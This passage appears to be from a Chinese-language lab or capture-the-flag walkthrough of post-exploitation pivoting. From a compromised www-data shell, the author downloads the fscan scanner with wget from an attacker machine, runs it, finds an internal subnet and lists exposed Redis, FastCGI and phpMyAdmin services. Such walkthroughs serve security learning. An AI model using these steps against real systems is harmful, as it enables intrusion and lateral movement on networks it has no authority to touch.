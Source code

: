 从攻击机上获取 `fscan` 二进制文件

```bash
(remote) www-data@4c2afff6c232:/tmp$ wget 192.168.200.129/fscan
--2024-07-25 03:35:58--  http://192.168.200.129/fscan
Connecting to 192.168.200.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: 'fscan'

fscan                                               100%[===================================================================================================================>]   6.77M  --.-KB/s    in 0.05s

2024-07-25 03:35:58 (139 MB/s) - 'fscan' saved [7100304/7100304]

(remote) www-data@4c2afff6c232:/tmp$ chmod +x fscan
```

查看网卡信息

```bash
(remote) www-data@4c2afff6c232:/tmp$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:C0:A8:64:02
          inet addr:192.168.100.2  Bcast:192.168.100.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2900 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2147 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:9380898 (8.9 MiB)  TX bytes:1208962 (1.1 MiB)

eth1      Link encap:Ethernet  HWaddr 02:42:0A:55:65:03
          inet addr:10.85.101.3  Bcast:10.85.101.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:15 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:1146 (1.1 KiB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:5675 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5675 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3540984 (3.3 MiB)  TX bytes:3540984 (3.3 MiB)
```

发现了一个新的 `10.85.101.0/24` 网段，尝试进行网段扫描

```bash
start ping
(icmp) Target 10.85.101.3     is alive
(icmp) Target 10.85.101.2     is alive
(icmp) Target 10.85.101.4     is alive
[*] Icmp alive hosts len is: 4
10.85.101.4:80 open
10.85.101.2:6379 open
10.85.101.4:9000 open
10.85.101.3:9000 open
10.85.101.3:80 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://10.85.101.4        code:200 len:19411  title:phpMyAdmin
[+] FCGI 10.85.101.4:9000
Status: 403 Forbidden
```